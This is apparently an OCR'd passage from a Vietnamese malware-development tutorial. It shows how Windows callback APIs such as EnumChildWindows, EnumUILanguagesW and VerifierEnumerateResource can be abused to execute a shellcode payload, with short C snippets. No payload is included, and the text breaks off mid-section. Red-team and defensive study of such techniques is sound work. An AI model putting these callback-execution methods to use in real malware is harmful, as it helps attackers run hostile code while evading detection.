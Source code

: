 ```c
if (!EnumChildWindows(NULL, (WNDENUMPROC)Payload, NULL)) {
    printf("[!] EnumChildWindows Failed With Error : %d \n", GetLastError());
    return -1;
}
```

#### **Sử Dụng `EnumChildWindows`**

Hàm `EnumChildWindows` cho phép ứng dụng liệt kê tất cả các cửa sổ con của một cửa sổ cha được chỉ định. Hàm này áp dụng callback function vào mỗi cửa sổ con. Bằng cách thiết lập callback để thực thi payload, mã độc có thể được chạy cho mỗi cửa sổ.

```c
BOOL EnumChildWindows(
  [in, optional] HWND        hWndParent,
  [in]           WNDENUMPROC lpEnumFunc,    // đây
  [in]           LPARAM      lParam
);
```

Ví dụ:

```c
if (!EnumChildWindows(NULL, (WNDENUMPROC)Payload, NULL)) {
    printf("[!] EnumChildWindows Failed With Error : %d \n", GetLastError());
    return -1;
}
```

#### **Sử Dụng `EnumUILanguagesW`**

Hàm `EnumUILanguagesW` được sử dụng để liệt kê tất cả các ngôn ngữ giao diện người dùng đã cài đặt trên hệ thống, gọi callback function cho mỗi ngôn ngữ. Hàm này cũng có thể bị lợi dụng bằng cách thiết lập callback để thực thi payload.

```c
BOOL EnumUILanguagesW(
  [in] UILANGUAGE_ENUMPROCW lpUILanguageEnumProc,     // đây
  [in] DWORD                dwFlags,
  [in] LONG_PTR             lParam
);
```

Ví dụ sử dụng:

```c
if (!EnumUILanguagesW((UILANGUAGE_ENUMPROCW)Payload, MUI_LANGUAGE_NAME, NULL)) {
    printf("[!] EnumUILanguagesW Failed With Error : %d \n", GetLastError());
    return -1;
}
```

#### **Sử Dụng `VerifierEnumerateResource`**

Hàm `VerifierEnumerateResource` được sử dụng để liệt kê các tài nguyên trong một module. Khi bị lạm dụng, nó có thể được khai thác để chạy một payload. Hàm này yêu cầu module phải được tải với `LoadLibrary` và `GetProcAddress`, và cho phép bạn kiểm tra tài nguyên heap.
